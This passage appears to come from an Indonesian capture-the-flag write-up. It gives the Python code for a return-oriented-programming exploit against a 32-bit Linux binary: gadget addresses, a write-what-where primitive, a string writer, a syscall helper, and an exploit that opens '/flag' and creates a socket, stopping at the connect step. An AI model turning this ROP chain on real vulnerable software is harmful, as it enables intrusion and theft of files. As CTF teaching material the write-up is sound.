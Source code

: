 ```py
# 0x08057bd2: mov dword ptr [edx], eax; ret;
# 0x080ab5ca: pop eax; ret;
# 0x0806ee8b: pop edx; ret;

def write_where_what(where, what):
    payload  = p32(0x080ab5ca)
    payload += p32(what)
    payload += p32(0x0806ee8b)
    payload += p32(where)
    payload += p32(0x08057bd2)
    return payload
```

arbitrary write primitive ini bisa digunakan dengan fungsi lain untuk memudahkan penulisan string panjang, `write_str`,

```py
def write_str(where, data):
    payload  = ''
    data_split = [data[i:i+4].ljust(4, '\x00') for i in range(0, len(data), 4)]
    for d in data_split:
        payload += write_where_what(where, u32(d))
        where += 4
    return payload
```

`write_str` ini berguna untuk menyiapkan _argument_ yang digunakan pada syscall, misalnya `open(3)`. btw, ada tambahan juga, fungsi untuk memudahkan memanggil syscall.

```py
# 0x0806eeb2: pop ecx; pop ebx; ret;
# 0x0806f7c0: int 0x80; ret;

def syscall(eax, ebx=0, ecx=0, edx=0):
    payload  = p32(0x0806ee8b)
    payload += p32(edx)
    payload += p32(0x080ab5ca)
    payload += p32(eax)
    payload += p32(0x0806eeb2)
    payload += p32(ecx)
    payload += p32(ebx)
    payload += p32(0x0806f7c0)
    return payload
```

_the exploit_, saya tidak akan terlalu membahas dalam `sokcetcall` syscall karena sudah [ada](https://barriersec.com/2018/11/linux-x86-reverse-shell-shellcode/) [banyak](https://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html) [yang](#) [membahas](https://medium.com/@chaudharyaditya/slae-0x2-linux-x86-reverse-shellcode-d7126d638aff) tentang ini sebelumnya.

```py
def exploit(REMOTE):
    payload  = 'AAAAAAAAAAAAAAAAAAAA'

    # open flag
    payload += write_str(elf.bss(0x10), '/flag\x00')
    payload += syscall(5, elf.bss(0x10), 0, 0)

    # open socket
    sock_arg  = p32(2)
    sock_arg += p32(1)
    sock_arg += p32(0)
    payload += write_str(elf.bss(0x20), sock_arg)
    # socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
    payload += syscall(0x66, 1, elf.bss(0x20))

    # connect
```